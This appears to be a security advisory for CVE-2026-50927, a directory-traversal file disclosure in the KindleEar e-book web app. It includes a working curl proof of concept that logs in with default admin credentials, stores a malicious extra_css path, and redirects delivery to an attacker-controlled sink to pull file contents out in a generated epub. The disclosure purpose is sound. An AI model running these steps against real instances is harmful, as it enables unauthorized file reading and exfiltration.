



# CVE-2026-50927 — Authenticated arbitrary-path, CSS-constrained file disclosure via `calibre_options.extra_css` in KindleEar

[CVE ID]
CVE-2026-50927

[PRODUCT]
cdhigh/KindleEar — open-source self-hosted web application that aggregates RSS/web feeds and delivers generated e-books to e-readers

[VERSION]
`5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7` (commit `5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7`, tag context "3.4.4")

[PROBLEM TYPE]
Directory Traversal (`CWE-22`)

## Description

An authenticated attacker can make the server read files at arbitrary absolute paths and exfiltrate their content through a generated e-book — subject to the constraint that only content the e-book CSS pipeline accepts and propagates into the output is disclosed (an arbitrary-path, CSS-constrained file disclosure, not a raw arbitrary-file read; see the constraint below and the boundary probe in the evidence). The attack is persistent across requests: `POST /adv/calibre` evaluates the attacker-supplied `options` form field with `safe_eval` and stores the resulting dict as `user.custom['calibre_options']` (`application/view/adv.py:511-527`), with no restriction on which calibre option keys may be set. Every later e-book conversion — e.g. `POST /reader/push` → `PushSingleArticle` → `html_to_book` (`application/view/reader.py:100`, `:322`, `:374`) — builds conversion options via `ke_opts()`, which copies `user.custom['calibre_options']` verbatim into the options object passed to the bundled calibre `Plumber` (`application/lib/build_ebook.py:117-121`, `:111`). Inside the conversion pipeline, `extra_css` is treated as a filesystem path whenever it exists on disk, with no base-directory confinement or allowlist:

```python
if self.opts.extra_css and os.path.exists(self.opts.extra_css):
    with open(self.opts.extra_css, 'rb') as f:
        self.opts.extra_css = f.read().decode('utf-8')
```

The file content read this way becomes the "extra CSS" of the output document and is embedded in the generated e-book (verified in the epub entry `stylesheet.css`), which the application then delivers to the destination the attacker configured (SMTP address or local save path). Content constraint: only content that the CSS pipeline accepts and propagates into the output document is disclosed — readable CSS/text files disclose their parseable property/value content, while a non-CSS HTML template read through the same path yielded no content (verified boundary probe).

Vulnerable code: https://github.com/cdhigh/KindleEar/blob/5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7/application/lib/calibre/ebooks/conversion/plumber.py#L493-L495

## Proof of Concept

### Victim setup

Image built from the pinned commit (`docker build -t scdd-platform/kindleear:5f51b48b -f docker/Dockerfile .` at `5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7`); `application/` tree verified byte-identical to the commit (only `application/recipes/builtin_recipes.*` differ, which the Dockerfile regenerates from upstream calibre by design).

```bash
docker run -d --name scdd_50927_kindleear -p 34513:8000 scdd-platform/kindleear:5f51b48b
# wait until http://127.0.0.1:34513/ answers 200
```

A fresh instance auto-creates an `admin`/`admin` account on first visit to `/login`; the PoC logs in with those default credentials (any authenticated account works).



### Attack steps

Target file: `/usr/kindleear/application/static/reader.css` — a pre-existing application asset (md5 `619683d44d7895a8b638902223bf91a7`) that is *not* linked by the pushed article, so any of its content in the output is attributable solely to `extra_css`.

```bash
BASE="http://127.0.0.1:34513"; CJ="/tmp/scdd_50927_cookies.txt"

# 1) bootstrap + login (session cookie)
curl -sS -c "$CJ" -b "$CJ" -o /dev/null "$BASE/login"
curl -sS -c "$CJ" -b "$CJ" -o /dev/null "$BASE/reader?username=admin&password=admin"

# 2) persist the malicious conversion option (absolute path, no base-dir check)
curl -sS -c "$CJ" -b "$CJ" -o /dev/null -X POST "$BASE/adv/calibre" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode "options={'extra_css': '/usr/kindleear/application/static/reader.css'}"

# 3) point delivery at an attacker-controlled sink (local file used as evidence channel)
curl -sS -c "$CJ" -b "$CJ" -o /dev/null -X POST "$BASE/account/change/admin" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'username=admin' --data-urlencode 'orgpwd=' \
  --data-urlencode 'password1=' --data-urlencode 'password2=' \
  --data-urlencode 'email=admin@example.com' --data-urlencode 'shareKey=scdd_50927_sharekey'
curl -sS -c "$CJ" -b "$CJ" -o /dev/null -X POST "$BASE/settings" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'kindle_email=attacker@example.com' \
  --data-urlencode 'delivery_mode=email' --data-urlencode 'sm_service=local' \
  --data-urlencode 'sm_save_path=/tmp/scdd_50927_mail'

# 4) trigger a conversion; the pipeline open()s the attacker-chosen path
curl -sS -c "$CJ" -b "$CJ" -X POST "$BASE/reader/push" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'type=article' \
  --data-urlencode 'src=/usr/kindleear/application/templates/base.html' \
  --data-urlencode 'title=scdd50927a' --data-urlencode 'language=en'
# -> {"status":"ok"} and /tmp/scdd_50927_mail/scdd50927a_05-21-26.epub appears
```



### Evidence

Verified inside the container by unpacking the generated epub (`docker exec ... python3`, full transcript in `evidence/transcript.txt`):

- Exploit run (`extra_css=/usr/kindleear/application/static/reader.css`): epub `scdd50927a_05-21-26.epub` contains `stylesheet.css` (1336 bytes) whose rules carry content that exists only in `reader.css` (`scrollbar-width: none`, `-webkit-tap-highlight-color: transparent`, `-webkit-touch-callout: none`, `-ms-overflow-style: none`, `height: 100%` — from reader.css's leading `*` / `html, body` rules). The article's own stylesheet bundle lands in `page_styles.css` (51 bytes) and does not contain reader.css content, ruling out the article as the source.
- Control run (same article, `extra_css` reset to `{}`): `stylesheet.css` shrinks to the 418-byte baseline and contains none of the reader.css needles — the disclosed content appears only when the path is supplied via `extra_css`.
- Observation (not independent evidence): second target (`extra_css=/usr/kindleear/application/static/base.css`) — `stylesheet.css` grows to 3415 bytes and contains `#526066`, `min-height: 100%` and `-73px`, values unique to `base.css`. Because the pushed article itself also links `base.css`, and the control run only checked the reader.css needles, this is consistent with disclosure but does not independently establish that `extra_css` supplied these values; the attributed evidence is the reader.css run above.
- Boundary probe (`extra_css=/usr/kindleear/application/templates/base.html`, a non-CSS file): push returns ok but `stylesheet.css` stays at the 418-byte baseline with no template text — raw non-CSS content does not survive.
- Server-side persistence confirmed: `GET /adv/calibre` echoes back `extra_css: /usr/kindleear/application/static/reader.css` from the stored user profile.



## Impact

A remote attacker with any valid account (a fresh instance auto-creates `admin`/`admin` on first visit; KindleEar instances often are single-user self-hosted) can cause the server to `open()` and read any file readable by the application process at an arbitrary absolute path — there is no base directory, extension or allowlist check on `extra_css`. The read happens on every subsequent e-book conversion of that user, and the accepted content is delivered to a destination the attacker controls (their kindle/send address, or any configured delivery service), making the read persistent and exfiltratable. Disclosure is constrained to file content that the e-book CSS pipeline accepts and propagates into the output document: parseable CSS values/properties (demonstrated for `reader.css`; observed for `base.css`, which the article also links) are disclosed verbatim, while non-CSS text (HTML template probe) is dropped by the transformation; the primitive is therefore an arbitrary-path, CSS-constrained file disclosure rather than a raw arbitrary-file-read.

## Occurrences

- `application/lib/calibre/ebooks/conversion/plumber.py:L493-L495` — sink: `open(self.opts.extra_css, 'rb')` on any existing attacker-chosen path
- `application/view/adv.py:L511-L527` — `POST /adv/calibre` persists attacker-controlled `calibre_options` (incl. `extra_css`) into `user.custom`
- `application/lib/build_ebook.py:L117-L121` — `ke_opts()` forwards `user.custom['calibre_options']` verbatim into `Plumber` options
- `application/lib/build_ebook.py:L106-L113` — `html_to_book()` constructs `Plumber(...)` with those options
- `application/view/reader.py:L100-L116` — `POST /reader/push` trigger leading to `PushSingleArticle` → `html_to_book`

## References

- [CVE-2026-50927](https://www.cve.org/CVERecord?id=CVE-2026-50927)
- [cdhigh/KindleEar](https://github.com/cdhigh/KindleEar) — pinned commit [5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7](https://github.com/cdhigh/KindleEar/tree/5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7)
